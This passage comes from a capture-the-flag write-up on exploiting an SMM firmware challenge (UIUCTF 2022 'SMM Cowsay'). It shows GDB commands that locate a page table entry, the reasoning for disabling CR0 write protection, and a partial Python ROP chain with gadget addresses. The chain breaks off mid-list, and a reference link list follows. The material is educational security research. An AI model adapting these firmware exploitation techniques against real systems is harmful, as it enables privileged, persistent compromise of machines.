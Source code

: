 ### Writing the real ROP chain

After flipping the stack and starting the real ROP chain, we'll need gadgets
for:

- Setting CR0 in order to be able to disable `CR0.WP` to be able to edit the
  page table.
- Write to memory at an arbitrary address to overwrite the page table entry for
  the flag address.
- Read from memory into a register to be able to get the flag.

All of these can be easily found with a bit of patience, since we have *a lot*
of gadgets on our hands.

Since addresses don't change, we don't really need to worry about walking the
page table: we can just find the address of the page table entry for
`0x44440000` once using GDB and then hardcode it in the exploit:

```
(gdb) set $lvl4_idx = (0x44440000 >> 12 + 9 + 9 + 9) & 0x1ff
(gdb) set $lvl3_idx = (0x44440000 >> 12 + 9 + 9) & 0x1ff
(gdb) set $lvl2_idx = (0x44440000 >> 12 + 9) & 0x1ff
(gdb) set $lvl1_idx = (0x44440000 >> 12) & 0x1ff
(gdb) set $lvl4_entry = *(unsigned long *)($cr3 + 8 * $lvl4_idx)
(gdb) set $lvl3_entry = *(unsigned long *)(($lvl4_entry & 0xffffffff000) + 8 * $lvl3_idx)
(gdb) set $lvl2_entry = *(unsigned long *)(($lvl3_entry & 0xffffffff000) + 8 * $lvl2_idx)

(gdb) set $lvl1_entry_addr = ($lvl2_entry & 0xffffffff000) + 8 * $lvl1_idx
(gdb) set $lvl1_entry      = *(unsigned long *)$lvl1_entry_addr

(gdb) printf "PTE at 0x%lx, value = 0x%016lx\n", $lvl1_entry_addr, $lvl1_entry

PTE at 0x7ed0200, value = 0x8000000044440066
```

Notice how `0x8000000044440066` has bit 63 set (NX) set and bits 0 and 1 unset
(not present, not writeable). We need to set bit 0 in order to mark the page as
present, so the value we want is `0x8000000044440067`.

Checking the value of CR0 from GDB we get `0x80010033`: turning OFF the WP bit
gives us `0x80000033`, so this is what we want to write into CR0 before trying
to edit the page table entry at `0x7ed0200`.

After finding the gadgets we need, this is what the real ROP chain looks like:

```python
ret_0x70 = 0x7F83000 + 0x8a49 # VariableSmm.efi + 0x8a49: ret 0x70
payload  = 'A'.encode('utf-16-le') * 200 + p64(ret_0x70)

real_chain = [
    # Unset CR0.WP
    0x7f8a184 , # pop rax ; ret
    0x80000033, # -> RAX
    0x7fcf70d , # mov cr0, rax ; wbinvd ; ret

    # Set PTE of flag page as present
    # PTE at 0x7ed0200, original value = 0x8000000044440066
    0x7f8a184         , # pop rax ; ret
    0x7ed0200         , # -> RAX
    0x7fc123d         , # pop rdx ; ret
    0x8000000044440067, # -> RDX
    0x7fc9385         , # mov dword ptr [rax], edx ; xor eax, eax ;
                        # pop rbx ; pop rbp ; pop r12 ; ret
    0x1337, # filler
    0x1337, # filler
    0x1337, # filler

```

[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31